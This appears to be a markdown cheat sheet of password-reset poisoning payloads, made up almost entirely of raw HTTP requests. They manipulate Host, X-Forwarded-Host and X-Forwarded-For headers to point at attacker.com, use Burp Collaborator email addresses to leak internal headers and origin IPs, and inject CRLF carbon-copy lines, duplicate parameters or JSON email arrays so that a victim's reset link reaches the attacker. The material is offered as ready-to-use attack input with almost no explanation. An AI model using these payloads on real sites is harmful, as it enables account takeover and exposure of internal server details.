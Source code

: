 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  
